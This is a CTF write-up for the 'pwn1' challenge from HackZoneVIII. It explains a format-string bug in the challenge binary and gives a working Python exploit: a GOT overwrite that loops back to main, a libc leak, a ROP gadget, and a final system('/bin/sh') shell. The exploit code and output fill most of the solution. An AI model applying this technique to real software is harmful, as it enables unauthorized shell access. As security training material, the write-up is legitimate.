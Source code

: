 
## pwn1
### Description

> `nc 79gq4l5zpv1aogjgw6yhhymi4.ctf.p0wnhub.com 11337`
>
> Download: https://storage.ctf.p0wnhub.com/pwn/bd456fb72d202f4e6e6302d98de83196-pwn1.zip
>
> Author: RETTILA


### Attachment

[pwn1](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/HackZoneVIIICTF/pwn/pwn1/pwn1)

### Analysis

#### fmtstr vulnerability

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+10h] [rbp-40h]
  char format[8]; // [rsp+20h] [rbp-30h]

  strcpy(format, "Easiest printf in HZVIII...\nWelcome %s");
  read(0, &buf, 0x20uLL);
  printf(format, &buf, argv);
  fflush(_bss_start);
  exit(0);
}
```

Reading `0x20` bytes to `buf[0x10]` cause that the next variable `format` would be overwritten by the last `0x10` bytes of input string.

### Solution

#### repeat exploit it

overwrite `exit` GOT to `main`:

```python
# exit -> main & leak libc
payload = ''
payload += p64(elf.got['exit'])+p64(elf.got['read'])
payload = payload.ljust(16,'A')
payload +=  '%%%dc'%(elf.sym['main']&0xffff)
payload += '%8$hn%9$s'
payload = payload.ljust(31,'B')

sl(payload)
```

> now we can repeat exploit the format string vulnerability for unlimited times

#### leak libc

We can leak address of `read` in libc at the same time:


```python
data = ru('\x0a\x6e\x20\x48\x5a')[-6:]
read = uu64(data)
info_addr('read',read)
```
> output: read: 0x7fdd43f58350

then use `libc-database` to figure out the version of libc:

```shell
% ./find read 350
ubuntu-trusty-amd64-libc6 (id libc6_2.19-0ubuntu6.14_amd64)
```

calc the base address of libc:

```python
libcbase = read-libc.sym['read']
info_addr('libcbase',libcbase)
```

#### getshell

At first, I tried to use `one_gadget`, but finally failed. I couldn't meet the constraints of `one_gadget`.

```c
0x46428 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4647c execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xe9415 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xea36d execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

> too strict

Then I tried to overwrite `system` to `__free_hook`  and use `%10000c` to trigger `free` , but failed again. (succeed in local but failed in remote)

Finally I found that we can set `rdi` to `'/bin/sh'` while calling `printf` . And the input string was stored in stack. So we can puts the address of system into stack and use gadget `pop-ret` to call `system('/bin/sh')`.

#### find the gadget

we need overwrite the address of gadget `pop-pop-pop-pop-ret` to `printf` GOT 

```python
p4r = libcbase + 0x00054f95

pl2 = ''
pl2 += p64(elf.got['printf'])
pl2 = pl2.ljust(16,'C')
pl2 += '%%%dc'%(p4r&0xffff)
pl2 += '%8$hn'
pl2 = pl2.ljust(31,'D')
print pl2

sl(pl2)
```

and the current values of `printf` is its real address in `libc`, so we can find gadget in `libc`.

if `gadget` is near `printf` , we just need to overwrite the last 2 bytes.

```python
In [1]: from pwn import *

In [2]: libc=ELF('./libc.so.6')
[*] '/home/taqini/Downloads/hzctf/pwn1/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

In [3]: hex(libc.sym['printf'])
Out[3]: '0x54340'
```

> offset of `printf` is `0x54340`

```c
% ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret" --all > gadget
% cat gadget | grep "00005.... : pop"
// ...
0x0000000000054f95 : pop r13 ; pop r14 ; pop r15 ; pop rbp ; ret
// ...
```

> choose gadget at `0x00054f95`

#### layout of regs/stack

input `aaaabaaacaaadaaaeaaafaaagaaahaaa` and see the layout of regs after `printf` called:

![](http://image.taqini.space/img/20200412144953.png)

> `rdi` = eaaa (offset=16)
>
> `rsp+0x18` = aaaa (offset=0)

so in the next time calling `printf` puts `'/bin/sh'` and the address of `system` into proper place:

```python
pl3 = 'A'*8+p64(system)
pl3+= '/bin/sh\0'
sl(pl3)
```

finally `system("/bin/sh")` was executed.

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/HackZoneVIIICTF/pwn/pwn1) 



